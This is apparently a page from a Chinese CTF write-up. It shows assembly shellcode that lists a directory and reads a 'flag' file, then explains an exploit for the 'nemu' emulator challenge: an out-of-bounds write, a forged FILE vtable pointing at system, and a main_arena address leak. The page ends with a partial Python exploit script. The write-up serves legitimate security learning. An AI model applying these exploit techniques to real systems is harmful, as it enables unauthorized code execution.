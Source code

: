 ```
	leaq dents(%rip), %rsi
	movq $32768, %rdx
	syscall # getdents64(fd, dents, 32768)

	movq $1, %rax
	movq %rax, %rdi
	leaq dents(%rip), %rsi
	movq $32768, %rdx
	syscall # write(1, dents, 32768)

	movq $2, %rax
	leaq flag_name(%rip), %rdi
	xorq %rsi, %rsi
	syscall # fd = open("flag", O_RDONLY)

	movq %rax, %rdi
	xorq %rax, %rax
	leaq flag_content(%rip), %rsi
	movq $32768, %rdx
	syscall # read(fd, flag_content, 32768)

	movq $1, %rax
	movq %rax, %rdi
	leaq flag_content(%rip), %rsi
	movq $32768, %rdx
	syscall # write(1, flag_contents, 32768)

dot: .string "."
flag_name: .string "flag"
dents:
flag_content:
```

## [pwn] nemu

题目大意：又是一个x86模拟器，给出了全部源代码，该模拟器的调试部分进行内存写入时未检查被偏移后的内存地址是否合法，目标反弹shell，没开PIE，glibc2.23

虽然内存地址偏移后没有做任何检查，但因为这里偏移量是32位的，所以实际上不是“任意位置”内存写入，只能写入全局变量的后半部分和堆

扫了一遍全局变量的后半部分都有啥，发现东西少得可怜，而且没有直接的函数指针，最开始以为是读取用户输入的linebuf，它可以泄漏堆地址，然后修改堆上数据，再次类似了前两道pwn题目；不过后来没搞出来，因为发现这道题的堆数据比较随机，特别是服务器上的堆结构和本机的堆结构完全不同，推测是因为libreadline.so.6没有下发的缘故（不确定，也可能是其他原因），最后放弃了这条思路

最后定位到一个用于记录日志的FILE指针log_fp，虽然默认是空的但是可以造一个假的，而且这里glibc版本太老几乎没有任何安全检查，FILE结构体中的函数指针表vtable可以随意设置，让它指向system即可

最后一个问题就是怎么获取system地址，全局变量区域没有可用信息，只能从堆里找办法，但是前面提到了堆结构本地和服务器完全不同，最后我采取的方法是通过较长的输入，强制分配一块比较大的输入缓冲区，随后当它释放掉后读取glibc填充的bk/fd指针得到main_arena附近的地址，不过还是发现有些输入长度本机结构和服务器结果不一致，好在多试了几个输入长度后发现了一次结果一致，结束

pwn脚本：
```python
import sys
import time

print('x 0x8000b60' + ' ' * 555)
sys.stdout.flush()

off = int(input(), 16) - 0x6a3b80
print('x 20 ' + hex(off - 0x10))
sys.stdout.flush()

hi = int(input(), 16)
lo = int(input(), 16)
addr = hi * (2 ** 32) + lo # <main_arena+760>
addr += -0x37fa08          # <__libc_system>
hi = addr // (2 ** 32)
```